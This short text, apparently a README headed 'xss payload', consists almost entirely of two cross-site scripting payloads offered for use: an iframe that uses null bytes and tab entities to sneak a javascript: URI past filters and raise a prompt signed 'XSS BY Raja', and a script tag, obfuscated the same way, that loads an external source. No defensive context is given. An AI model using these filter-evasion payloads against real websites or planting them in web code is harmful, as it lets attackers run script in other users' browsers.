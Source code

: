 # xss payload

```
<iframe %00 src="&Tab;javascript:prompt(XSS BY Raja)&Tab;"%00>
<script/&Tab; src='https://github.com' /&Tab;></script>

```
